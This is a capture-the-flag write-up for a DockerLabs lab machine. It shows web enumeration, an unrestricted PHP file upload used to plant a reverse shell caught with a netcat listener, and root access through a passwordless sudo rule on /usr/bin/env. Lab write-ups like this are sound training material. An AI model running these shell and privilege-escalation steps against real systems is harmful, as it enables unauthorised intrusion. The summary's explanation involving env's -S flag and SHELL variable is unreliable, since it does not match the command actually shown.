


# upload

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| upload | El Pingüino de Mario | easy / facil | dockerlabs |

**Summary:** The upload machine was a simple web upload and sudo misconfiguration challenge. The only exposed service was Apache HTTP on port 80, serving a page titled "Upload here your file". Directory brute forcing with Gobuster uncovered the `upload.php` handler and an `uploads` directory. The application accepted arbitrary files, so a standard `php-reverse-shell.php` payload was customised and uploaded through the form. Triggering the uploaded file returned a shell as `www-data`, which was upgraded to an interactive TTY with `script`. A `sudo -l` check revealed that `www-data` could run `/usr/bin/env` as root without a password. Since `env` can execute arbitrary programs through its `-S` flag and the `SHELL` environment variable, running `sudo -u root /usr/bin/env /bin/bash` spawned a root bash shell immediately, completing the compromise in a single command.

---

## Reconnaissance

**1. Machine Deployment**

The engagement began by deploying the vulnerable machine using the DockerLabs automation script.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/upload]
└─$ sudo bash auto_deploy.sh upload.tar   
[sudo] password for ouba: 

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

A full port scan was then conducted against the target to enumerate all running services.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/upload]
└─$ nmap -sC -sV -p- -T4 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-07 20:15 +0700
Nmap scan report for 172.17.0.2 (172.17.0.2)
Host is up (0.0000080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: EA:AC:68:8E:30:B3 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.90 seconds
```

The scan revealed a single open service, Apache HTTP on port 80, serving a page titled "Upload here your file".



**3. Directory Enumeration**

Directory brute-forcing was performed against the web root.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/upload]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              css,png,env,js,txt,php,html,zip,tar,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 1361]
uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
upload.php           (Status: 200) [Size: 1357]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

Gobuster revealed the upload handler at `upload.php` and the `uploads` directory where uploaded files are stored.

---

## Initial Access

**1. Preparing the Reverse Shell Payload**

A standard PHP reverse shell was copied from the local payload collection and customised with the attacker's IP and port.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/upload]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php
                                                                                         
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/upload]
└─$ vim shell.php
```

**2. Uploading the Webshell**

The modified `shell.php` was uploaded through the web form. The application accepted the file without any filtering.



**3. Catching the Shell and Upgrading the TTY**

A netcat listener was already running on the attacking machine when the reverse shell connected. The session lacked a TTY, so it was upgraded with `script` and fully stabilised.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/upload]
└─$ nc -lvnp 4444                              
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59996
Linux 93f86bde6c7a 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64 x86_64 x86_64 GNU/Linux
 15:17:50 up  3:38,  0 users,  load average: 3.55, 1.50, 1.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ script -qc /bin/bash /dev/null
www-data@93f86bde6c7a:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                         
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/upload]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@93f86bde6c7a:/$ export TERM=xterm
www-data@93f86bde6c7a:/$ export SHELL=/bin/bash
www-data@93f86bde6c7a:/$ stty rows 80 cols 130
```

A stable shell as `www-data` was obtained.

---

## Privilege Escalation

**1. Checking sudo Permissions**

The sudo rights of the `www-data` user were inspected.

```bash
www-data@93f86bde6c7a:/$ sudo -l
Matching Defaults entries for www-data on 93f86bde6c7a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 93f86bde6c7a:
    (root) NOPASSWD: /usr/bin/env
```

The `www-data` account can run `/usr/bin/env` as root without a password. This is a classic privilege escalation primitive, because `env` can execute any command on the system.

**2. Root Shell**

The sudo rule was exploited by passing `/bin/bash` as the command to `env`.

```bash
www-data@93f86bde6c7a:/$ sudo -u root /usr/bin/env /bin/bash
root@93f86bde6c7a:/# cd
root@93f86bde6c7a:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
93f86bde6c7a
```

The command returned an immediate root shell, achieving full compromise of the upload machine.

---

## Attack Chain Summary
1. **Reconnaissance**: A full TCP port scan with `nmap -sC -sV -p- -T4` identified Apache HTTP on port 80 as the only open service, serving a page titled "Upload here your file". Gobuster enumerated `upload.php` and the `uploads` directory.
2. **Vulnerability Discovery**: The upload application performed no file type or extension filtering, allowing arbitrary PHP files to be uploaded and stored inside the `uploads` directory.
3. **Exploitation**: A customised `php-reverse-shell.php` was uploaded through the web form and triggered, returning a shell as `www-data`. The TTY was upgraded with `script` for a stable interactive session.
4. **Internal Enumeration**: `sudo -l` revealed that `www-data` could run `/usr/bin/env` as root without a password, which is a known GTFOBins escalation vector because `env` can execute arbitrary programs.
5. **Privilege Escalation**: Running `sudo -u root /usr/bin/env /bin/bash` spawned a root shell directly, and the `id;whoami;hostname` output confirmed uid 0, completing the full chain.
